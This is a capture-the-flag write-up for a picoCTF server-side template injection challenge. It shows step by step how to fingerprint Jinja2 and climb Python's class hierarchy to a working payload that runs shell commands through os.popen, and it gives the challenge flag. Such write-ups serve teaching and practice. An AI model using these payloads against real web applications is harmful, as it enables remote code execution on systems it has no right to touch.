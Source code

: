 # Problem
A cool website was created where users can announce anything they want. The site uses templating, which is a modular way to build web apps. The challenge can be accessed [here].  
**Hint:** Server Side Template Injection

# Solution
First, it is important to determine the type of template engine in use. By submitting `{{ 10*10 }}`, the output "100" suggests that the engine is either Python (Jinja2) or PHP (Twig).  
This can be confirmed with the command:  
`{{ ''.__class__ }}` → "<class 'str'>", indicating a Python string.

Further testing reveals:  
`{{ ''.__class__.__mro__[1] }}` → Retrieves the base object class.

`{{ ''.__class__.__mro__[1].__subclasses__() }}` → Lists all subclasses.

A vulnerable subclass was found at index 133 (note that this index may vary depending on the environment). To exploit this, the subclasses are enumerated to find one that allows access to dangerous built-ins. For example:

```python
{{ ''.__class__.__mro__[1].__subclasses__()[133] }}
```

This reveals the subclass `<class 'warnings.catch_warnings'>`, which can be leveraged for code execution. The exact index may differ, so it may be necessary to iterate through the list to find the appropriate class.  
After further exploration, the following payload was constructed:  
`{{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat flag').read()") }}`

Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`

It is always advisable to look for classes such as "__globals__", "__builtins__", "os", or "subprocess".
